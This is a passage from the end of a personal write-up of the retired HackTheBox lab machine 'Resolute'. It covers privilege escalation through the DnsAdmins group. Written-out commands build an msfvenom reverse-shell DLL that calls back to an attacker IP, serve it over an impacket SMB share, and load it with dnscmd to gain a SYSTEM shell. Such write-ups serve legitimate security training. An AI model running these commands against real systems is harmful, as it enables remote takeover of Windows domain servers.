 Therefore, the listner and payload will be 64 bit.

The steps followed to achieve shell after reading the articles are as follows.

1. Create an x64 reverse shell payload with msfvenom
   
   ```root@kali:/var/www/html/pub# msfvenom -p windows/x64/shell/reverse_tcp LHOST=10.10.14.41 LPORT=9001 -f dll  > spluggin.dll```

   -a for architechture, however, leaving it out defaults to x64.

2. Serve the the dll with impacket smb (you can see when the remote host pulls the file after the dnscmd
   ```root@kali:/var/www/html/pub# /opt/impacket/examples/smbserver.py share .```
   
3. Set up a multi handler with a same x64 reverse shell payload and run it
   
4. On the target, execute the dnscmd using to call the malicious dll from the smb share, then stop and start the dns server.
   
   ```
   C:\Users\Ryan> dnscmd.exe  /config /serverlevelplugindll \\10.10.14.41\share\spluggin.dll

   sc.exe stop dns
   sc.exe start dns
   ```

![dnsadmin](/images/resolute/dnsadmin.png)

A systmem shell is received!

![root](/images/resolute/root.png)

Conclusion:

I got a little emotional seeing this box retire since it was my first one on HackTheBox 6 months before the time of this posting. 
This box thought me a lot as a begineer, I was introduced to evil-winrm and Impacket, learned some basic windows enumeration, struggled and learned how to chosse the right msfvenom payloads and learned how to exploit the DNSAdmin Group for priviledge escalation.

Thanks to the creators of the box!

LateComerz out!

<img src="https://www.hackthebox.eu/badge/image/206328" alt="Hack The Box">
